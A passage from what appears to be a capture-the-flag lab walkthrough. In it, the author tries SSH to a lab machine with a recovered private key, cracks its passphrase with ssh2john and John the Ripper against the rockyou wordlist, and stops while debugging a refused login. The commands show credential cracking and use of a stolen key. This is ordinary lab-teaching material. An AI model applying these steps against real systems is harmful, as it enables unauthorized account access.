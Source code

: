 Clearly these need to be used on the SSH port that was opened (Port# 4655).

## SSH with Stefano the Intern Web developer

Okay, time to set the permissions correctly for id_rsa and try it against the server.

```
root@kali:~/Documents/Vanquish/pinkydb# chmod 600 id_rsa
root@kali:~/Documents/Vanquish/pinkydb# ssh -i id_rsa Stefano@192.168.225.130 -p 4655
The authenticity of host '[192.168.225.130]:4655 ([192.168.225.130]:4655)' can't be established.
ECDSA key fingerprint is SHA256:u986iF153Xa6BbFapGcWhsyzav6u/iFhjUwFkG3+zTk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[192.168.225.130]:4655' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

Looks like the RSA key is encrypyted and we need a passphrase in order to use it.
This should have been apparent based on the Encrypted reference within the id_rsa key file:
```
Proc-Type: 4,ENCRYPTED
```

The go to tool for cracking an key passphrase is John the ripper:

```
root@kali:~/Documents/Vanquish/pinkydb# ssh2john id_rsa > shadow
root@kali:~/Documents/Vanquish/pinkydb# cat /usr/share/wordlists/rockyou.txt | john --pipe --rules shadow
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/32])
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
secretz101       (id_rsa)
1g 0:00:00:51  0.01959g/s 541516p/s 541516c/s 541516C/s secretz101
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The passphrase for the id_rsa private key file is `secretz101`

```
root@kali:~/Documents/Vanquish/pinkydb# ssh -i id_rsa Stefano@192.168.225.130 -p 4655
Enter passphrase for key 'id_rsa': 
Stefano@192.168.225.130's password: 
Permission denied, please try again.
```
**Permission DENIED!!!??!?!??!!**
Adding -v to ssh to get more details on what is happening.

```
root@kali:~/Documents/Vanquish/pinkydb# ssh -v -i id_rsa Stefano@192.168.225.130 -p 4655
OpenSSH_7.3p1 Debian-1, OpenSSL 1.0.2h  3 May 2016
debug1: Reading configuration data /root/.ssh/config
debug1: Reading configuration data /etc/ssh/ssh_config
---SNIP---
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: publickey
debug1: Trying private key: id_rsa
Enter passphrase for key 'id_rsa': 
debug1: Authentications that can continue: publickey,password
debug1: Next authentication method: password
Stefano@192.168.225.130's password: 
```
